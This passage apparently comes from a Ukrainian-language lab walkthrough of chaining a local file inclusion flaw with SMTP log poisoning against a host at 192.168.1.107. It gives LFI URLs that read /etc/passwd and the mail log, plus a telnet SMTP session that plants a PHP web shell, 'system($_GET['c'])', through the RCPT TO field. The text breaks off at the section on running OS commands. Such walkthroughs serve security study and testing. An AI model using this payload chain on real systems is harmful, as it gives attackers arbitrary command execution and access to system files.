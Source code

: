 * **Дія:** Спроба включити стандартний системний файл Linux, який зазвичай доступний.  
* **URL (Приклад):**  
```
192.168.1.107/lfi/lfi.php?file=/etc/passwd
```
* **Очікуваний Результат:** Успішне відображення вмісту файлу /etc/passwd у браузері підтверджує наявність LFI-уразливості.1

### **4.3. Етап III: Підтвердження Доступу до Лог-Файлу**

Перед інжекцією коду необхідно переконатися, що веб\-сервер може читати цільовий лог-файл.

* **Дія:** Спроба включити системний лог-файл пошти.  
* **URL (Приклад):**  
```
192.168.1.107/lfi/lfi.php?file=/var/log/mail.log
```
* **Очікуваний Результат:** Відображення вмісту лог-файлу (навіть якщо він порожній або містить лише стандартні записи). Цей крок підтверджує критичну проблему з дозволами файлів.1

### **4.4. Етап IV: Отруєння Лог-Файлу (Log Poisoning) Через Telnet**

Це етап інжекції PHP-коду у лог-файл.

* **1\. Підключення до SMTP-сервісу:**  
```Bash  
  telnet 192.168.1.107 25
```

* **2\. Ін'єкція Коду:** Після привітання SMTP-сервера необхідно ввести послідовність команд, використовуючи поле RCPT TO: для розміщення шкідливого пейлоаду. Використовується PHP-код, що дозволяє виконання команд ОС через URL-параметр c.1

**Послідовність Інжекції SMTP та Очікуваний Результат**

| Команда SMTP (Telnet) | Призначення | Очікувана Реакція Сервера | Результат у Лог-Файлі |
| :---- | :---- | :---- | :---- |
| telnet \[IP\] 25 | Встановлення з'єднання | Вітання сервера (220) | Запис про нове з'єднання |
| MAIL FROM:\<rrajchandel@gmail.com\> | Визначення відправника | Підтвердження (250) | Запис про відправника |
| RCPT TO:\<?php system($\_GET\['c'\]);?\> | **Ін'єкція шкідливого коду** | Помилка синтаксису (501) | Запис *інжектованого рядка* |
| QUIT | Завершення сесії | Закриття з'єднання (221) | Запис про закриття сесії |

Специфіка цієї техніки полягає в тому, що успіх залежить від логування, а не від коректного виконання транзакції. Відповідь 501 підтверджує, що синтаксис був невірним, але саме це відхилення змушує SMTP-сервіс детально залогувати повний рядок клієнтського вводу, що і є метою Log Poisoning.1

## **5\. РЕАЛІЗАЦІЯ ВІДДАЛЕНОГО ВИКОНАННЯ КОДУ (RCE)**

Після успішного отруєння лог-файлу, RCE реалізується шляхом повторного звернення до LFI-уразливості з додатковим параметром, що містить команди для виконання.

### **5.1. Виконання Команди ОС для Перевірки**
